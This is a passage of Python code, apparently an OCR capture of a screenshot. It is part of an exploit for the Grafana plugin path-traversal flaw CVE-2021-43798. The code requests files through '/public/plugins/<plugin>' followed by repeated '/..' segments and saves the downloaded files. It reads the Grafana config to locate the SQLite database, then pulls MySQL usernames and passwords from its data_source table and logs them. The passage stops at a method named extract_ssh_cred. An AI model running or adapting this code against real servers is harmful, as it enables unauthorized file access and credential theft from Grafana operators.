 ```python
					+ '/public/plugins/' \
					+ choice(plugins) \
					+ '/..'*8 \
					+ file

				request = Request(method='GET', url=vulnerable_path)

				prepare_request = session.prepare_request(request)
				prepare_request.url = vulnerable_path

				response = session.send(prepare_request)

				if 'Plugin not found' in response.text:
					exit('\n[!] File not found.')
				else:
					if response.status_code == 200:
						file_name = file.split('/')[-1] # extract only file name

						with open(file_name, 'wb') as file:
							file.write(response.content)

						log.info(f'(CVE-2021-43798) Extracted file -> {file_name}'); time.sleep(1)
		
		except Exception as error:
			exit('\n[x] Error: %s' % error)

	def get_database_path(self):
		try:
			file_name = self.target_files['grafana_conf'].split('/')[-1] # extract only file name

			with open(file_name, 'rb') as file:
				content = file.read()

				filter_data = findall(r';data = (.+)|;path = (.+)', content.decode('utf-8'))

				database_path = filter_data[0][0] + '/' + filter_data[1][1]

				self.target_files['grafana_db'] = database_path

		except Exception as error:
			exit('\n[x] Error: %s' % error)

	def get_mysql_cred(self):
		try:
			file_name = self.target_files['grafana_db'].split('/')[-1] # extract only file name

			with sqlite3.connect(file_name) as connection:
				cursor = connection.cursor()

				query = 'SELECT user, password FROM data_source'
				response = cursor.execute(query)

				username, password = response.fetchone()

				self.target_credentials['mysql']['user'] = username
				self.target_credentials['mysql']['pass'] = password

				log.success('Mysql credentials -> {}:{}'.format(username, password)); time.sleep(1)

		except Exception as error:
			exit('\n[x] Error: %s' % error)

	def extract_ssh_cred(self):
```